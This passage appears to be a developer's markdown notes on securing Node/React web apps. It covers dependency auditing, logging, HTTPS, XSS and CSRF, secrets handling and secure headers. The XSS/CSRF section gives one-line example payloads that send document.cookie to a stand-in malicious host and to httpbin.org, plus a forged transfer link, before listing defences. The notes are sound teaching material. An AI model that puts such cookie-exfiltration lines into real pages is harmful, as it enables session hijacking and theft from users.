   - [Announcing npm@6](https://medium.com/npm-inc/announcing-npm-6-5d0b1799a905)
    - `npm audit`
  - [Snyk](https://github.com/snyk/snyk)
    - `sudo npm i -g snyk`
    - `snyk auth`
    - `snyk test`
- Logging
  - [Insufficient Logging & Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
  - [winston](https://github.com/winstonjs/winston)
    - advanced console log
  - [morgan](https://github.com/expressjs/morgan)
    - monitor api request
- HTTPS Everywhere - SSL/TLS Certificates
  - [Let's Encrypt](https://letsencrypt.org)
  - [Cloudflare](https://www.cloudflare.com/)
- [XSS](https://www.hacksplaining.com/exercises/xss-stored) & [CSRF](https://www.hacksplaining.com/exercises/csrf)
  - XSS: Cross Side Scripting (use for session hijack)
    - [Cross-site scripting for dummies](https://medium.com/hackernoon/cross-site-scripting-for-dummies-be30f76fad09)
    - Hacker inject malicious code into blog post
    - Malicious Code is run when user visit the blog post
    - Example: `window.location = 'www.zzz.com?cookie=' + document.cookie`
    - Send user cookie to to malicious website www.zzz.com
  - CSRF: Cross Site Request Forgery
    - Client <-> Server <-> Database
    - Client <-> 3rd Party API
    - Users log in to their netbank.com
    - Send them a malicious with the following code in the link
    - Example: `<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>`
    - Users click the link and send AttackerA \$100
    - Example 2:
    - `fetch('//httpbin.org/post',{method:'POST',body:document.cookie})`
    - Send cookie of the current login website to a malicious site
    - [httpbin.org](https://httpbin.org)
    - Solution: Block in document's Content Security Policy
  - XSS and CSRF Summary
    - Sanitize input
    - No eval()
    - No document.write()
      - Example: `document.write('<script>alert(1)</script>')`
    - [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
    - Secure + HTTPOnly [Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
      - Secure: Cookies send over https
      - HTTPOnly: Prevents cookies from being accessed by client side scripting
    - [csurf](https://github.com/expressjs/csurf)
- Code Secrets
  - [Environmental Variables](https://create-react-app.dev/docs/adding-custom-environment-variables/)
    - Add into .env. Example: `REACT_APP_API_URL=https://swapi.py4e.com/api`
  - Commit History
    - use .gitignore file to avoid commit secret or password to github
    - [Do NOT commit password to github](https://github.com/search?q=remove+password&type=Commits)
- Secure Headers
  - [helmet](https://helmetjs.github.io/)
  - [HTTP: The Protocol Every Web Developer Must Know - Part 1](https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177)
  - [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
  - [HTTP - Header Fields](https://www.tutorialspoint.com/http/http_header_fields.htm)
  - [Helmet](https://github.com/helmetjs/helmet)
- Access Control
  - Principal of least privilege
  - Example: [cors](https://github.com/expressjs/cors)
    - Don't give public access to server